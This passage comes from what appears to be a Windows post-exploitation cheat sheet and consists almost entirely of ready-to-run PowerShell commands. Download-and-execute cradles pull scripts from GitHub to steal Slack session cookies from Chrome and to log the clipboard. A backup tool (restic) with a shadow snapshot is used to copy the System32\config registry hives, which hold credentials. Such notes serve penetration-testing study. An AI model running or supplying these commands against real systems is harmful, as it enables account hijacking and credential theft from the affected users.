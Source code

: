         IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')

        Invoke-SharpChromium -Command "cookies slack.com"
        # it may look for cookie file in '%LOCALAPPDATA%\Google\Chrome\User Data\Default\Cookies'
        # or '%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies'
        ```
    
    * clipboard:

        ```ps
        # check for any info in clipboard
        # using Invoke-Clipboard script - https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1
        IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')

        Invoke-ClipboardLogger
        # starts to monitor for entries in clipboard
        ```
    
    * attacking backup servers:

        ```ps
        # using restic as an example for backup tool
        # create and initialize the repository - location where backup will be saved
        mkdir E:\restic2; restic.exe -r E:\restic2 init

        # take backup of directory
        $env:RESTIC_PASSWORD = 'Password'

        restic.exe -r E:\restic2\ backup C:\SampleFolder

        # to backup directories like C:\Windows, we have to create a VSS using --use-fs-snapshot
        restic.exe -r E:\restic2\ backup C:\Windows\System32\config --use-fs-snapshot

        # check backups saved in repository, this also shows backup ID
        restic.exe -r E:\restic2\ snapshots
